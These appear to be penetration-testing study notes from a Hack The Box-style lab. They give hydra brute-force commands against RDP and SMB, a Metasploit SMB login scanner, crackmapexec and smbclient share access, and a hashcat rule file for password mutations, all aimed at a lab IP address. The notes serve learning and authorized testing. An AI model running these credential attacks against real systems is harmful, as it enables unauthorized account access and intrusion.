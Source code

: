 ### Hydra RDP
`hydra -L user.list -P password.list rdp://10.129.42.197`
Thereafter:
`xfreerdp /v:<target-IP> /u:<username> /p:<password>`

### Hydra SMB
`hydra -L user.list -P password.list smb://10.129.42.197`

### msfconsole
`use auxiliary/scanner/smb/smb_login`

### Crackmap smb
`crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares`

### SMBclient
`smbclient -U user \\\\10.129.42.197\\SHARENAME`

# Password Mutations
We can add a custom rule to a password list to make `hashcat` test a multityde of mutations for each of the passwords
    Function 	Description
    : 	Do nothing.
    l 	Lowercase all letters.
    u 	Uppercase all letters.
    c 	Capitalize the first letter and lowercase others.
    sXY 	Replace all instances of X with Y.
    $! 	Add the exclamation character at the end.

```bash
zirap98@htb[/htb]$ cat custom.rule

:
c
so0
c so0
sa@
c sa@
c sa@ so0
$!
$! c
$! so0
$! sa@
$! c so0
$! c sa@
$! so0 sa@
$! c so0 sa@
```
`hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list`

